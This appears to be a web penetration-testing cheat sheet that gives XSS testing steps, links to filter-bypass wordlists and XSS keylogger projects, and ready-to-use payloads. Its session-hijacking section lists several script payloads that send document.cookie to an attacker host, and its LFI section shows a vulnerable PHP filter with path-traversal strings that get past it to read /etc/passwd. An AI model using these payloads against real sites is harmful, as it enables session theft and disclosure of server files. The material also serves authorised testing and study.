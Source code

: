 ## Cross-Site Scripting
1-> Identify the language and frameworks used  
2-> Identify entry points (parameters, inputs, responses reflecting values you can control, etc)   
3-> Check how this is reflected in the response via source code preview or browser developer tools  
4-> Check the allowed special characters  
```
< > ' " { } ;
```
5-> Detect if there are filters or blockages and modify as needed to make it work

### Wordlists for XSS Bypass
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/wordlists/xss_bypass.txt
https://gist.githubusercontent.com/rvrsh3ll/09a8b933291f9f98e8ec/raw/535cd1a9cefb221dd9de6965e87ca8a9eb5dc320/xxsfilterbypass.lst
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/XSS/XSS-Bypass-Strings-BruteLogic.txt
https://raw.githubusercontent.com/payloadbox/xss-payload-list/master/Intruder/xss-payload-list.txt
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/XSS/XSS-Cheat-Sheet-PortSwigger.txt

### XSS Auditor and XSS Filter
https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xss.md
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
https://www.chromium.org/developers/design-documents/xss-auditor/
https://portswigger.net/daily-swig/xss-protection-disappears-from-microsoft-edge
https://developer.mozilla.org/pt-BR/docs/Web/HTTP/Headers/X-XSS-Protection

### XSS Keylogger
https://rapid7.com/blog/post/2012/02/21/metasploit-javascript-keylogger/
https://github.com/hadynz/xss-keylogger

### XSS Mutation
http://www.businessinfo.co.uk/labs/mxss/

### XSS Poliglote
https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

### XSS - Session Hijacking
```
<script>new Image().src="http://<IP>/ok.jpg?output="+document.cookie;</script>
<script type="text/javascript">document.location="http://<IP>/?cookie="+document.cookie;</script>  
<script>window.location="http://<IP>/?cookie="+document.cookie;</script>
<script>document.location="http://<IP>/?cookie="+document.cookie;</script>  
<script>fetch('http://<IP>/?cookie=' + btoa(document.cookie));</script>  
```

## Local File Inclusion - LFI
### Replace ../ - Bypass
$language = str_replace('../', '', $_GET['file']);  
```
/....//....//....//....//etc/passwd  
..././..././..././..././etc/paswd  
....\/....\/....\/....\/etc/passwd 
```
